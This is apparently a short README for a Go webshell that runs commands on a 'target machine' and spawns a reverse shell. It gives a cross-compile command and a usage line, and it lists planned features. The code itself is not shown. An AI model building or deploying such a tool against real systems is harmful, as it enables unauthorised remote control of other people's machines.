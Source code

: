 A simple webshell written in Go. Supports Windows and any Unix-like OS with The Bourne shell (sh).
Features

Not a whole lot at the moment.

    Execute commands on the target machine
    Spawn a reverse shell (Go or Python PTY)

Compilation

env GOOS=<OS> GOARCH=<ARCHITECTURE> go build shell.go

Usage

Running with no arguments will launch the HTTP server on 0.0.0.0:8080

./shell -ip <IP> -port <PORT>

TODO:

    File Manager
    ???
